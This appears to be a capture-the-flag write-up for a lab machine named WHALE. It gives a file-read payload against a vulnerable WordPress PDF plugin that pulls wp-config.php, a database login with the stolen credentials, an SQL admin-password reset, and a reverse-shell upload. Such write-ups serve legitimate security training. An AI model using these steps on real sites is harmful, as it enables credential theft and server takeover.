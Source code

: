 ## WHALE

DIFFICULTY= medium

OS = Linux


### Nmap scan

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e7ac9040-3910-472c-be9b-5ef758724426)

adding the domain to /etc/hosts
``echo "ip  bluewhale.net" >> /etc/hosts``

so, visiting the site shows it's running wordpress

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/016ff2dd-3aa3-4996-87f1-71fe567ed16f)

let's enumerate the wordpress using ``wpscan`` aggressive detection

```wpscan --url http://bluewhale.net/  --plugins-detection aggressive -t 120```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e4f489b7-a427-4c19-8ae1-ac24d5acb083)

it gives us a vulnerable plugin; the plugin is vulnerable to arbitrary file read

so, we can exploit it using [this](https://www.exploit-db.com/exploits/33004)

doing that,we should be able to read the wordpress config file ``wp-config``

```bluewhale.net/wp-content/plugins/post-pdf-export/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=../../../../wp-config.php```

reading it gives us the gives us the base64 encoded chars.

decoding it shows the mysql credential

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/01cdc783-aa0d-4bb4-90b5-4cc1923258e5)

let's login to mysql with it 
``mysql -u wordpress -h bluewhale.net -p``
and input the password

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/7780d4f1-3484-4965-9a8e-160e4e8cad08)
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8e86ab4c-12bc-4a85-b364-48d9a0198a5a)

as u can see we have the first flag already

let's proceed by checking the wp_users table 

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/eb5268df-f706-4f33-9883-980684964c78)

and yeah we have the credentials for the wordpress login

so, instead of cracking the password hash we can actually change the password to our desired own for easier loggin(cool trick right?) lol

```UPDATE wp_users SET user_pass = MD5('hacked') WHERE ID = 1;```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/bc564284-6efa-44b7-a82f-dcd6707a4d05)

so, we can now login to wordpress and proceed

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/4b971843-adc4-4474-90ba-1f82bfa63aca)

login and upload a reverse shell using the add plugin feature
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/288de2a8-c124-488d-9af6-0499c0212844)

and let's access our shell in the upload directory
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/49a87b3e-5c6e-4a98-952d-ae3f2b0020b0)






